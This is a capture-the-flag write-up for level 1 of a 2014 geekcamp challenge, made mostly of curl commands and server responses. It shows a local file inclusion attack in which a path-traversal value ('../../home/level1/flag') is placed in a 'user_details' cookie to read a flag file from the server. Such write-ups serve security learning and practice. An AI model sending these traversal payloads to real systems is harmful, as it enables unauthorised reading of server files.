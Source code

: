 # Level 1

Making a request on the page returns some HTML, and the page sets a `user_details` cookie.
The contents look like a filename.

```shell
> curl -v http://ctf.geekcamp.sg
```

```
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: ctf.geekcamp.sg
> Accept: */*
> 
< HTTP/1.1 200 OK
* Server nginx/1.6.2 is not blacklisted
< Server: nginx/1.6.2
< Date: Tue, 21 Oct 2014 09:41:46 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.6.2
< Set-Cookie: user_details=user_pfhaltq9fpjve69zav.dat
< 

[snipped]

<small> This is level1, and you are a new user! </small>
```

---

If we try a local file inclusion exploit, the output does disappear, lending some credence to the theory.

```shell
> curl -b 'user_details=/home/level1/flag' -v http://ctf.geekcamp.sg
```

```
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: ctf.geekcamp.sg
> Accept: */*
> Cookie: user_details=/home/level1/flag
> 
< HTTP/1.1 200 OK
* Server nginx/1.6.2 is not blacklisted
< Server: nginx/1.6.2
< Date: Tue, 21 Oct 2014 09:44:51 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.6.2
< 

[snipped]

<small> This is level1, and you are  </small>
```

---

At this point, if you keep traversing up the hierarchy, you'll eventually see this:

```shell
> curl -b 'user_details=../../home/level1/flag' -v http://ctf.geekcamp.sg
```

```
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: ctf.geekcamp.sg
> Accept: */*
> Cookie: user_details=../../home/level1/flag
> 
< HTTP/1.1 200 OK
* Server nginx/1.6.2 is not blacklisted
< Server: nginx/1.6.2
< Date: Tue, 21 Oct 2014 09:48:17 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.6.2
< 

[snipped]

<small> This is level1, and you are iesieshahgheojaviguzaehusahbosheiyoochil
```

\#win
